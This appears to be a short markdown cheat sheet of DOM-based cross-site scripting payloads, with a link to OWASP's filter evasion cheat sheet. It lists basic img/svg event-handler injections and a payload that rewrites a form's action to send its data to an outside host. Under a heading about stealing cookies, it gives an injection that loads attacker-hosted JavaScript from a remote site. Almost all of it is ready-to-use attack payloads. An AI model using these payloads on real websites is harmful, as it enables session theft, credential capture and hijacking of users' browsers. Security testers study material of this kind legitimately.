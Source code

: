 ### [OWASP XSS CheatSheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

XSS DOM: 



DOM runs on the client side,the payloads are process on the browser and not on the server side 

__Basic Payloads:__

	"><img=src="aa" onerror="alert(document.domain)">


	"><svg/onload="alert(document.domain)">



__Complex Payload using POST method__

	"><svg/onload="document.forms[1].action='//sitecom.site/text.php'">



__PART2: Complex JS payload to steal Cookies:__


	- host JS file on the server. 

	- The file has an alert("XSS"); function

	- Craft a payload to connect to it :

		var s= document.createElement('SCRIPT');
		s.src= '//text.site/alert.php';

		document.body.appendChild(s);
		
	
	- Url:  "><svg/onload="var s= document.createElement('SCRIPT');s.src='//text.site/alert.php';document.body.appendChild(s);"

	

__Image Payload__ :

	- URL>>number.php?name=noImage.jpg' onerror=alert("xss");>
	
	- URL >> https://xss-doc.appspot.com/demo/3#imge.jpg' onerror=alert("xss");>

	

